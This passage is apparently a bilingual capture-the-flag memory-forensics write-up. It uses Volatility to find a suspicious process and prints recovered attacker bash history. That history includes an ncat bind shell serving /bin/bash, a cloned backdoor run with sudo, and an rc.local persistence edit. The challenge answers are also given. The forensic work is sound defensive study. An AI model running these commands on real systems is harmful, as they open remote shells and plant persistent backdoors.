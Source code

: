 What is the PID of the suspicious process?

¿Cuál es el PID del proceso sospechoso?

```bash
volatility2 -f dump.mem --profile=LinuxCentos7_3_10_1062x64 linux_psaux
```

```bash
Pid    Uid    Gid    Arguments

2854   0      0      ncat -lvp 12345 -4 -e /bin/bash
```

#### Respuesta

`2854`


### Q4

The attacker downloaded a backdoor to gain persistence. What is the hidden message in this backdoor?

El atacante descargó un backdoor para ganar persistencia. Cuál es el mensaje oculto en este backdoor?

```bash
───────┬────────────────────────────────────────────────────────────────────────────────────────────────────────
       │ File: commands
───────┼────────────────────────────────────────────────────────────────────────────────────────────────────────
   1   │ Pid      Name                 Command Time                   Command
   2   │ -------- -------------------- ------------------------------ -------
   3   │     2622 bash                 2020-05-07 14:56:16 UTC+0000   cd Documents/
   4   │     2622 bash                 2020-05-07 14:56:17 UTC+0000   echo "c2hrQ1RGe2wzdHNfc3Q0cnRfdGgzXzFudjNz
       │ dF83NWNjNTU0NzZmM2RmZTE2MjlhYzYwfQo=" > y0ush0uldr34dth1s.txt
   5   │     2622 bash                 2020-05-07 14:56:25 UTC+0000   git clone https://github.com/tw0phi/PythonBackup
   6   │     2622 bash                 2020-05-07 14:56:28 UTC+0000   cd PythonBackup/
   7   │     2622 bash                 2020-05-07 14:56:33 UTC+0000   unzip PythonBackup.zip 
   8   │     2622 bash                 2020-05-07 14:56:37 UTC+0000   python PythonBackup.py 
   9   │     2622 bash                 2020-05-07 14:56:40 UTC+0000   sudo python PythonBackup.py 
  10   │     2622 bash                 2020-05-07 14:57:05 UTC+0000   cooooooooooooooooooooooooool
  11   │     2622 bash                 2020-05-07 15:00:12 UTC+0000   cd
  12   │     2622 bash                 2020-05-07 15:00:15 UTC+0000   git clone https://github.com/504ensicsLabs
       │ /LiME
  13   │     2622 bash                 2020-05-07 15:00:19 UTC+0000   cd LiME/src/
  14   │     2622 bash                 2020-05-07 15:00:24 UTC+0000   make
  15   │     2622 bash                 2020-05-07 15:00:37 UTC+0000   sudo insmod lime-3.10.0-1062.el7.x86_64.ko
       │  "path=/Linux64.mem format=lime"
  16   │     2887 bash                 2020-05-07 14:59:42 UTC+0000   vim /etc/rc.local
───────┴────────────────────────────────────────────────────────────────────────────────────────────────────────
```
